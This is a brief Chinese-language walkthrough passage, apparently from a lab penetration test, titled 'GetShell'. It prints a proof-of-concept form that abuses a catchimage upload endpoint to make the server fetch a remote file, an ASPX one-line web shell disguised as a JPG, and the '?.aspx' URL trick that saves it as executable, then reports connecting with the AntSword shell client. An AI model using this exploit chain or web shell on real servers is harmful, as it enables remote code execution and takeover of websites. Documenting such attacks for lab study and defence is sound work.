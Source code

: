 ## GetShell

网上找一个poc

```
<form action="http://www.ackmoon.com/admin/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">

  <p>shell addr:<input type="text" name="source[]" /></p >

  <input type="submit" value="Submit" />

</form>
```

将aspx的一句话木马修改为jpg格式

```
<%@ Page Language="Jscript"%><%eval(Request.Item["888888"],"unsafe");%>
```

上传时的地址为`http://192.168.50.128:8083/aa.jpg?.aspx`，需要加上aspx扩展，才能将后缀改为aspx

![image-20231121142121043](images/8.png)



成功连接蚁剑

![image-20231121142304042](images/9.png)

